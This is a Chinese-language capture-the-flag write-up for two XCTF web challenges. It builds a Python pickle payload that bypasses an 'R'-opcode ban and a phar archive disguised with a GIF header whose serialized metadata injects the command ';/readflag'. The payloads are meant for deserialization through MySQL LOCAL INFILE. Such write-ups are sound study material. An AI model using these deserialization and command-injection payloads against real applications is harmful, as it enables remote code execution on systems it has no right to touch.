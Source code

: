 ## XCTF高校战疫

### webtmp

用我工具直接秒：https://github.com/eddieivan01/pker

导入当前全局的secret module并修改name和category即可。题目ban了'R'，也就是不能直接调用callable对象，pker有三个内置宏，除了GLOBAL其它两个都可以当'R'用

```
a = GLOBAL('__main__', 'Animal')
s = GLOBAL('__main__', 'secret')
s.name = 1
s.category = 1
return OBJ(a, 1, 1)


python3 pker.py < webtmp.pk
b"c__main__\nAnimal\np0\n0c__main__\nsecret\np1\n0g1\n(}(S'name'\nI1\ndtbg1\n(}(S'category'\nI1\ndtb(g0\nI1\nI1\no."
```

### webct

题目功能点很刻意，上传图片 + 连接指定MySQL Server

即利用MySQL load local infile反序列化phar

先上传phar

```php
<?php
    class Fileupload {
        public $file;   
    }
    class Listfile {
        public $file;
    }

    $o = new Fileupload;
    $o->file = new Listfile;
    $o->file->file = ';/readflag';

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```
